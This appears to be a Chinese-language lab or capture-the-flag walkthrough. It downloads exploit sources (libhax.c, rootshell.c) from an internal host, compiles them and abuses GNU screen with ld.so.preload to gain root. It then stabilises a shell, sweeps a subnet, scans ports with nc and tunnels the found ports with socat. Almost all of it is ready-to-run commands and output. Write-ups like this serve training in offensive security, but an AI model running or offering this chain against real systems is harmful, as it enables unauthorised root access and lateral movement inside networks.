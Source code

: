 项目下载：
cd /tmp
wget http://172.16.2.4:8081/libhax.c
wget http://172.16.2.4:8081/rootshell.c


gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
gcc -o /tmp/rootshell /tmp/rootshell.c
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
成功获得root权限！
--------------------
获取一个稳定shell：
先python继续反弹shell！！！
python -c 'import pty; pty.spawn("/bin/bash")'

哑shell无法编辑py文件解决：
export SHELL=bash
export TERM=xterm-256color
stty rows 54 columns 104
ctrl+z
stty raw -echo
fg

--------------------

查找存活IP：
for i in $(seq 1 255); do ping -c 1 172.16.3.$i; done | grep "bytes from"

64 bytes from 172.16.3.3: icmp_seq=1 ttl=255 time=0.164 ms
64 bytes from 172.16.3.4: icmp_seq=1 ttl=64 time=0.626 ms
64 bytes from 172.16.3.6: icmp_seq=1 ttl=64 time=0.009 ms

查找3.4端口：
for i in $(seq 1 65535); do nc -nvz -w 1 172.16.3.4 $i 2>&1; done | grep -v "Connection refused"

(UNKNOWN) [172.16.3.4] 8009 (?) open
(UNKNOWN) [172.16.3.4] 8080 (http-alt) open
(UNKNOWN) [172.16.3.4] 34483 (?) open
发现开启了8009、8080、34483端口！
需要将它们通过隧道传输到与我相同的网络上！
which socat
/usr/bin/socat
安装了socat！


端口转发：附加一个与号“&”在后台运行 socat 命令
socat TCP-LISTEN:8009,fork,reuseaddr TCP:172.16.3.4:8009 &
socat TCP-LISTEN:8080,fork,reuseaddr TCP:172.16.3.4:8080 &
socat TCP-LISTEN:34483,fork,reuseaddr TCP:172.16.3.4:34483 &


“＆”号只是标准的.nix语法，用于运行命令并将其放到后台，以便您可以继续使用其他内容！
这样就能在外部网络查看到他们三个端口的服务了，可以用nmap进行扫描了，这里还可以用netstat -plunt也能看出！
